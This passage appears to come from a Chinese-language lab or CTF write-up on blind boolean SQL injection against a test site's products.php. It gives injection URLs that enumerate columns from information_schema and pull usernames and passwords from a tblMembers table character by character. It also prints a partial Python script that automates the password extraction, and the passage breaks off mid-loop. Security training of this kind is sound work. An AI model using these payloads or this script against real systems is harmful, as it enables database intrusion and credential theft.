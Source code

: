 ``````
                except:
                    continue
        c += 1
```

![1559820377925](assets/1559820377925.png)

重新试试爆破他的字段改一下语句,扔python里

```
http://10.1.0.239/products.php?type=1%20and(select%20ascii(mid((select%20column_name%20from%20information_schema.columns%20where%20table_name=%27tblMembers%27%20limit%200,1),1,1)))=111
```

![1559820682538](assets/1559820682538.png)

再去爆他的数据！！用户名

```
http://10.1.0.239/products.php?type=1%20and(select%20ascii(mid((select%20username%20from%20seattle.tblMembers%20limit%200,1),1,1)))=111
```

![1559821130952](assets/1559821130952.png)

密码

```
http://10.1.0.239/products.php?type=1%20and(select%20ascii(mid((select%20password%20from%20seattle.tblMembers%20limit%200,1),1,1)))=111
```

![1559821409047](assets/1559821409047.png)

最终代码改成这样了，因为我发现。。有可能因为字符长度过长导致时间过长的问题就加了个判断d，这样40位的名字也可以进行判断了

```python
"""
@Product:DVWA 
@Author:Aixic
@create：2019-06-04-19:33
"""
import urllib.request

header={'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36'
    ,'Cookie': 'level=1','Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3'}
if __name__ == '__main__':
    a=""
    c = 0
    for k in range(0,20):
        a+="\r\n"+str(k)+":"
        if c==2:
            print("结束了")
            exit()
        d=0
        for i in range(1,40):
            if d ==2:
                print("结束了")
                exit()
            for j in range(255):
                url="http://10.1.0.239/products.php?type=1%20and%28select%20ascii%28mid%28%28select%20password%20from%20seattle.tblMembers%20limit%20"+str(k)+",1%29,"+str(i)+",1%29%29%29="+str(j)
``````
